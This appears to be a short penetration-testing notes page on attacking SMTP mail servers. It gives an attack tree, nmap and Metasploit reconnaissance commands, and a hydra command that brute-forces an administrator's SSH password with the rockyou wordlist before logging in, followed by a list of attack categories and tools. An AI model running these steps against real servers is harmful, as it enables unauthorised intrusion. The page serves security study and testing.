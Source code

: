 # SMTP exploits

## Attack tree

```text
1 Port scan
2 Recon
    2.1 Detect version
    2.2 Enumerate users
    2.3 Identify possible exploits
3 Exploit
```

## Example

```text
msf > search smtp
msf > search scanner name:smtp
msf > search exploit name:smtp -S excellent
```

### Lucky trail

Run a port scan against the email server (first try 25):

```text
# nmap -A -p 25 <IP address mailserver>
```

Detect SMTP version:

```text
# msfconsole
msf > search smtp_version
```

Research Mail Transfer Agent (MTA). Things that can help:

* When connecting, the greeting (code 220) will often spell out Postfix
* Common error messages are not strictly standardised - deliberately triggering an error (syntax, non-existing 
address, ...) will often return a message unique to one software
* Many providers will publish what they use (almost have to, in order to hire specialists)

Enumerate users:

```text
msf > search smtp_enum
```

Crack SSH password:

```text
# hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV <IP address mailserver> ssh
```

SSH into the server as the user:

```text
# ssh administrator@<IP address mailserver>
```

## Notes

The Simple Mail Transfer Protocol (SMTP) is the Internet protocol for sending email. 
SMTP uses TCP port 25.

There are eight basic categories of SMTP exploits:

* Cleartext sniffing of authentication, email messages, and attachments; banner grabbing
* Relaying spam and phishing
* Email account enumeration
* Brute forcing account passwords
* Buffer overflows for arbitrary code execution
* Privilege escalation
* Denial of service
* Authentication bypass

## Tools

* [Wireshark](https://www.wireshark.org/download.html)
* [Cain](https://web.archive.org/web/20190603235413/http://www.oxid.it/cain.html)
* [Ettercap](https://www.ettercap-project.org/)
* [The Social-Engineer Toolkit (SET)](https://github.com/trustedsec/social-engineer-toolkit)
* [Nmap: smtp-user-enum.nse](https://nmap.org/nsedoc/scripts/smtp-user-enum.html)
* [Nmap: smtp-vuln-cve2010-4344.nse](https://nmap.org/nsedoc/scripts/smtp-vuln-cve2010-4344.html)
* [Metasploit: auxiliary/scanner/smtp/smtp_version](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/smtp/smtp_version)
* [Metasploit: auxiliary/scanner/smtp/smtp_enum](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/smtp/smtp_enumm)
* [Metasploit: exploit/windows/email/ms07_017_ani_loadimage_chunksize](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/email/ms07_017_ani_loadimage_chunksize)
* [Hydra](https://github.com/vanhauser-thc/thc-hydra)
* [Medusa](https://github.com/jmk-foofus/medusa)
